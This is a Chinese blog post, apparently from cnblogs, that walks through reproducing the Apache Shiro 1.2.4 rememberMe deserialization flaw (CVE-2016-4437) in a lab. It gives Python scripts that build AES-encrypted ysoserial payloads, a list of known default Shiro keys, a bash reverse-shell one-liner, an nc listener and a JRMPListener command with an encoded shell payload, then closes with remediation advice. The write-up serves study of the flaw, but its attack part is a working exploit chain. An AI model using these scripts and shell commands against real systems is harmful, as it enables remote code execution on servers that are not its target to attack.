




# CVE-2016-4437 Apache Shiro 1.2.4 反序列化漏洞复现 - yoyodan - 博客园

> 原文：[`www.cnblogs.com/Iamyoyodan/p/13163291.html`](https://www.cnblogs.com/Iamyoyodan/p/13163291.html)

# **Apache Shiro 1.2.4 反序列化漏洞检测及利用 getshell**

### **什么是 Apache Shiro：**

Apache Shiro 是一个强大且易用的 Java 安全框架，执行身份验证、授权、密码和会话管理。使用 Shiro 的易于理解的 API，您可以快速、轻松地获得任何应用程序，从最小的移动应用程序到最大的网络和企业应用程序。

### **shiro 反序列化的特征：**

在返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段

### **影响范围：**

只要 rememberMe 的 AES 加密密钥泄露，Apache Shiro <= 1.2.4 版本均存在威胁

### **漏洞成因：**

大概意思是，shiro 在登录处提供了 Remember Me 这个功能，来记录用户登录的凭证，然后 shiro 使用了 CookieRememberMeManager 类对用户的登陆凭证，也就是 Remember Me 的内容进行一系列处理：

**使用 Java 序列化 ---> 使用密钥进行 AES 加密 ---> Base64 加密 ---> 得到加密后的 Remember Me 内容**

同时在识别用户身份的时候，需要对 Remember Me 的字段进行解密，解密的顺序为：

**Remember Me 加密内容 ---> Base64 解密 ---> 使用密钥进行 AES 解密 --->Java 反序列化**

问题出在**AES 加密的密钥 Key 被硬编码在代码里**，这意味着攻击者只要通过源代码找到 AES 加密的密钥，就可以构造一个恶意对象，对其进行序列化，AES 加密，Base64 编码，然后将其作为 cookie 的 Remember Me 字段发送，Shiro 将 RememberMe 进行解密并且反序列化，最终造成反序列化漏洞。

### **参考文章：**

[`www.cnblogs.com/bmjoker/articles/11650295.html`](https://www.cnblogs.com/bmjoker/articles/11650295.html)

[`cloud.tencent.com/developer/article/1540882`](https://cloud.tencent.com/developer/article/1540882)

[`www.pythonheidong.com/blog/article/337436/`](https://www.pythonheidong.com/blog/article/337436/)

### **环境搭建**

靶机：kali2019　ip：192.168.245.129

攻击机：win10　ip：192.168.43.248

1.  启动靶机环境

    打开 kali，找到 vulhub 环境下的 CVE-2016-4437 漏洞目录，vulhub 安装教程：[`www.cnblogs.com/Iamyoyodan/p/13323445.html`](https://www.cnblogs.com/Iamyoyodan/p/13323445.html) ，打开靶场环境

    

    浏览器访问服务默认端口 8080，环境搭建成功

    

2.  编译生成 ysoserial 反序列化利用工具

    ysoserial 是一款目前最流行的 Java 反序列化 Payload 生成工具，目前支持 29 种的 Payload 生成。

    执行以下操作：

    ```
    $git clone https://github.com/frohoff/ysoserial.git
    $cd ysoserial
    $mvn package -D skipTests 
    ```

    即可生成 ysoserial-0.0.6-SNAPSHOT-all.jar 文件，如果出现 bash: mvn: command not found 的问题，是 kali 未安装 maven，参考文章：[`www.cnblogs.com/yuexiaoyun/articles/13033946.html`](https://www.cnblogs.com/yuexiaoyun/articles/13033946.html)

3.  编写检测漏洞的脚本，这里借用大佬的文件

    shiro.py

    ```
    # -*- coding: utf-8 -*-
    import sys
    import base64
    import uuid
    from random import Random
    import subprocess
    from Crypto.Cipher import AES

    def encode_rememberme(command):
        popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-SNAPSHOT.jar', 'URLDNS', command], stdout=subprocess.PIPE)
        BS   = AES.block_size
        pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
        key  =  "kPH+bIxk5D2deZiIxcaaaA=="   
        # 如果不成功，可能是密钥不匹配，更换密钥重试
        #key = "Z3VucwAAAAAAAAAAAAAAAA=="
        #key = "wGiHplamyXlVB11UXWol8g=="
        #key = "2AvVhdsgUs0FSA3SDFAdag=="
        #key = "4AvVhmFLUs0KTA3Kprsdag=="
        #key = "3AvVhmFLUs0KTA3Kprsdag=="
        #key = "U3ByaW5nQmxhZGUAAAAAAA=="
        #key = "wGiHplamyXlVB11UXWol8g=="
        #key = "6ZmI6I2j5Y+R5aSn5ZOlAA=="
        #key = "fCq+/xW488hMTCD+cmJ3aQ=="
        #key = "1QWLxg+NYmxraMoxAXu/Iw=="
        #key = "ZUdsaGJuSmxibVI2ZHc9PQ=="
        #key = "r0e3c16IdVkouZgk1TKVMg=="
        #key = "5aaC5qKm5oqA5pyvAAAAAA=="
        #key = "bWluZS1hc3NldC1rZXk6QQ=="
        #key = "a2VlcE9uR29pbmdBbmRGaQ=="
        #key = "WcfHGU25gNnTxTlmJMeSpw=="

        mode =  AES.MODE_CBC
        iv   =  uuid.uuid4().bytes
        encryptor = AES.new(base64.b64decode(key), mode, iv)
        file_body = pad(popen.stdout.read())
        base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
        return base64_ciphertext

    if __name__ == '__main__':
        payload = encode_rememberme(sys.argv[1])    
        print "rememberMe={}".format(payload.decode()) 
    ```

4.  编写生成反弹 shell payload 的脚本，这里我用强哥给的文件

    shiro_exp_payload.py

    ```
    # -*- coding: utf-8 -*-
    import uuid
    import base64
    import subprocess
    from Crypto.Cipher import AES

    def encode_rememberme(command):
        popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-SNAPSHOT.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
        BS = AES.block_size
        pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
        # 密钥使用检测成功的密钥
        key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
        iv = uuid.uuid4().bytes
        encryptor = AES.new(key, AES.MODE_CBC, iv)
        file_body = pad(popen.stdout.read())
        base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
        return base64_ciphertext

    if __name__ == '__main__':
        payload = encode_rememberme(sys.argv[1])    
    print "rememberMe={0}".format(payload.decode()) 
    ```

    这里介绍一下脚本里面的 JRMPClient 与之后会使用到的监听命令的 JRMPListenter

    *   payloads/JRMPClient 是结合 exploit/JRMPListener 使用的

    *   JRMPListener 是 ysoserial 工具里的其中一个利用模块，作用是通过反序列化，开启当前主机的一个 JRMP Server ，具体的利用过程是，将反序列化数据发送到 Server 中，然后 Server 中进行反序列化操作，并开启指定端口， 然后在通过 JRMPClient 去发送攻击 payload

    *   payloads/JRMPClient 生成的 payload 是发送给目标机器的，exploit/JRMPListener 是在自己服务器上使用的

    *   超详细分析：[`xz.aliyun.com/t/2650`](https://xz.aliyun.com/t/2650)

### **漏洞检测**

1.  攻击机访问靶机 shiro 页面，输入用户名密码点击登录

    bp 抓包，可以看到在 Set-Cookie 中含有记录用户登录凭证的 rememberMe 字段

    

2.  打开 Burp 中的 Burp Collaborator client 插件，插件详解：[`blog.csdn.net/fageweiketang/article/details/89073662`](https://blog.csdn.net/fageweiketang/article/details/89073662)

    

    点击 Copy to clipboard，复制其提供的 payload url

    

3.  运行 shiro.py 脚本生成检测 payload，此处构建地址 http://+复制的 url

    ```
    python2 shiro.py "http://hg1i30khmmzi86ngjhytn7jfv61wpl.burpcollaborator.net" 
    ```

    

4.  复制 payload 到请求包中，注意以分号隔开，GO 一下可以看到这里多了一个 RememberMe，表示 payload 已加载

    

    

5.  返回插件查看，将 seconds 值设小一点，点击 Poll now 即可看到回显，证明漏洞存在，密钥为 kPH+bIxk5D2deZiIxcaaaA==

    

### **漏洞利用 getshell**

1.  编辑命令，意为 bash 反弹 shell 到 192.168.43.248:8888

    ```
    $bash -i >& /dev/tcp/192.168.43.248/8888 0>&1 
    ```

    打开 http://www.jackson-t.ca/runtime-exec-payloads.html 将命令进行编码，复制编码内容

    

2.  nc 监听反弹 shell 的端口

    ```
    $nc -lvp 8888 
    ```

    

3.  同时使用 ysoserial-master-SNAPSHOT.jar 中的 JRMP 监听模块监听 7777 端口（注意这里是另开了一个攻击端口，和之前反弹 shell 的端口不一样）

    ```
    $java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 7777 CommonsCollections5 "bash -c {echo,JGJhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40My4xMTcvODg4OCAwPiYx}|{base64,-d}|{bash,-i}" 
    ```

    

4.  执行脚本，生成 payload

    shiro_exp_payload.py

    ```
    $python2 shiro_exp_payload.py 192.168.43.248:7777 
    ```

    

5.  同样将 payload 放入请求包中，看到靶机已执行

    

6.  查看 8888 端口可以看到反弹成功，成功获取 shell

    

### 漏洞修复

*   升级 shiro 到 1.2.5 及以上.

*   如果在配置里配置了密钥, 那么请一定不要使用网上的密钥, 一定不要! ! 请自己 base64 一个 AES 的密钥, 或者利用官方提供的方法生成密钥: org.apache.shiro.crypto.AbstractSymmetricCipherService#generateNewKey().

    ```
    public class GenerateCipherKey {

     /**
      * 随机生成秘钥，参考 org.apache.shiro.crypto.AbstractSymmetricCipherService#generateNewKey(int)
      * @return
      */
     public static byte[] generateNewKey() {
         KeyGenerator kg;
         try {
             kg = KeyGenerator.getInstance("AES");
         } catch (NoSuchAlgorithmException var5) {
             String msg = "Unable to acquire AES algorithm.  This is required to function.";
             throw new IllegalStateException(msg, var5);
         }

         kg.init(128);
         SecretKey key = kg.generateKey();
         byte[] encoded = key.getEncoded();
         return encoded;
     }
    } 
    ```